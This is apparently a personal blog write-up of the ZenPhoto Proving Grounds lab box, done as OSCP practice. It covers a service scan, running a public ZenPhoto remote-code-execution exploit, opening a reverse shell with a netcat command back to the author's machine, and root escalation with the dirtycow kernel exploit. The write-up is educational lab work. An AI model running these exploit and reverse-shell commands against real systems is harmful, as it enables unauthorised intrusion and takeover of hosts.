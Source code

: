 ```yaml
---
layout: writeup
title: ZenPhoto - Proving Grounds
date:
description: A Writeup of the ZenPhoto Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, kernel]
---
```


![ZenPhoto1.png](/assets/images/ZenPhoto/ZenPhoto1.png){: .center-aligned width="600px"}

Here's a writeup for ZenPhoto, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). get started with an nmap scan to reveal:
```
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```
I head to the browser to check port 80, and I see this. 

![ZenPhoto2.png](/assets/images/ZenPhoto/ZenPhoto2.png){: .center-aligned width="600px"}

Not super helpful, so I kick off a directory scan which points toward a /test directory.

![ZenPhoto3.png](/assets/images/ZenPhoto/ZenPhoto3.png){: .center-aligned width="600px"}

Powered by ZenPhoto? You don't say. Viewing the source of this page reveals a version number that might help us to find an exploit.

![ZenPhoto4.png](/assets/images/ZenPhoto/ZenPhoto4.png){: .center-aligned width="600px"}

It shows a few other directories like `/test/zp-core/images/reset_icon.png` which leads us to the admin page of `192.168.245.41/test/zp-core/admin.php` when we try to few all images, but I search for the version and exploit to get started. Unfortunately most of them seem to require authentication, but there is one [RCE Exploit](https://www.exploit-db.com/exploits/18083) that does not. We save that to our directory as 18083.php (like it's titled in searchsploit) and run `php 18083.php 192.168.245.41 /test/`. 

![ZenPhoto5.png](/assets/images/ZenPhoto/ZenPhoto5.png){: .center-aligned width="600px"}

That get us a limited shell, so I decided to use `busybox nc 192.168.45.183 4444 -e /bin/bash` to get something more stable. I catch that shell with penelope, and it's time to enumerate. We can't run sudo, and nothing really sticks out from lse or linpeas beyond kernel exploits, which we usually avoid in labs as they are often not the intended path. We do have `gcc` on this machine though, so we can compile a kernel exploit if we need to. 

And after enumerating for a while I did just that. I checked for cron jobs and running processes as well as a number of files which stuck out as potentially containing credentials, but I couldn't find anything that actually did, plus they would have to come for the root user directly. So ultimately I downloaded [dirtycow](https://github.com/firefart/dirtycow) and transferred it to the target machine. From then I simply followed the instructions (`gcc -pthread dirty.c -o dirty -lcrypt`) and ran the binary (`./dirty`) to create a user called `firefart` with the password I chose (`party1`). After that I simply used `su firefart` and entered my password.

![ZenPhoto6.png](/assets/images/ZenPhoto/ZenPhoto6.png){: .center-aligned width="600px"}

And we're done. Given that the dirtycow exploit is older than the lab machine, maybe it was the intended exploit. Either way, I need to run to the grocery store so I can start dinner, and I'll have to look for alternatives afterward. 

Lessons learned: Not a lot during this box. We use a powerful RCE exploit for one service which allows us to get a shell, and then we use a kernel exploit which we normally avoid during labs like this. Most of the time was spent looking for clues that weren't there on the target (or looking for alternatives to the initial exploit because I didn't realize I could run it from my own command line even though it was a .php file). Overal pretty simple. 

Post-Box Research: Most of the writeups I read actually were some kind of kernel exploits, so while I had options, it does seem like that was the intended path. While I used dirtycow, I also saw PwnKit and [this rds exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds). 
